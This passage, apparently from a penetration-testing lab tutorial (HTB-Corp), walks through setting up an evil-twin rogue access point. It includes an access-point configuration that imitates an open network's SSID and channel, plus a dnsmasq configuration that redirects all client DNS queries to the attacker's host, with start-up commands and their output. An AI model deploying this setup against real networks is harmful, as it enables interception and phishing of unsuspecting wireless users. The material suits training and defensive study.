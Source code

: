 ```configuration
interface=wlan2
hw_mode=g
ssid=HTB-Corp
channel=1
driver=nl80211

```

This configuration ensures that the rogue AP is broadcasting the same SSID on the same channel as an open network.

Next, we create a configuration file for the DNS server to manage IP assignments and DNS resolution for clients connecting to the rogue access point. For this, we create an `dns.conf` file with the following contents:

```configuration
interface=wlan2
dhcp-range=192.168.0.2,192.168.0.254,255.255.255.0,10h
dhcp-option=3,192.168.0.1
dhcp-option=6,192.168.0.1
server=8.8.4.4
server=8.8.8.8
listen-address=127.0.0.1
address=/#/192.168.0.1
log-dhcp
log-queries

```

In the above config file, the `dhcp-range` defines the range of IPs to be assigned to clients, `dhcp-option` sets the default gateway (option 3) and DNS server (option 6), `server` points to the DNS servers (Google DNS in this case) and `address` forces all domain queries to redirect to the rogue IP address (192.168.0.1). This configuration will ensure clients that connect to the rogue AP are given IPs in the defined range and are redirected to the attacker's DNS server.

To start the DNS server with our configuration, we first stop any running dnsmasq service to avoid conflicts by using the command shown below:

```shell
service dnsmasq stop

```

Next, we execute the DNS configuration file and start the DNS server on port 53 using:

```shell
sudo dnsmasq -C dns.conf -d

dnsmasq: started, version 2.90 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset no-nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq-dhcp: DHCP, IP range 192.168.0.2 -- 192.168.0.254, lease time 10h
dnsmasq: using nameserver 8.8.4.4#53
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: reading /etc/resolv.conf
dnsmasq: using nameserver 8.8.4.4#53
dnsmasq: using nameserver 8.8.8.8#53
dnsmasq: using nameserver 1.1.1.1#53
dnsmasq: read /etc/hosts - 7 names

```
